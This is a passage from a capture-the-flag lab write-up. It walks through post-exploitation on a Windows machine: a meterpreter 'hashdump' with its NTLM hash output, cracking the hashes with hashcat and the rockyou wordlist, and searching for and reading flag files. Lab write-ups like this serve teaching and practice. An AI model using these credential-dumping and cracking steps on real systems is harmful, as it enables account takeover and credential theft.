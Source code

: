 I execute the command

```
hashdump
```

to dump all stored credential hashes. We get the following output

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

There is a non standard user called Jon on the machine, an administrator account and a guest account.

I copied the output into a text file. I then used hashcat and the wordlist "rockyou" to crack the password hashes. The wordlist "rockyou" can be downloaded from github [here](https://github.com/zacheller/rockyou). On kali it is already stored in the "/usr/share/wordlists" directory.

The command to crack the hashes is

```
hashcat -m 1000 <file to dumped hashes> /usr/share/wordlists/rockyou.txt
```

The hash is cracked and the password is displayed.

## Task 5: Find flags

Within the meterpreter session I use

```
search -f *flag*
```

to search on the host for any files which contain the string "flag" in the filename.

The following files were found:

![grafik (3).png](.attachments.41596/grafik%20%283%29.png)

With 

```
cat <path to file>
```

I can display the content of the regarding file. All flags are found and the machine is done!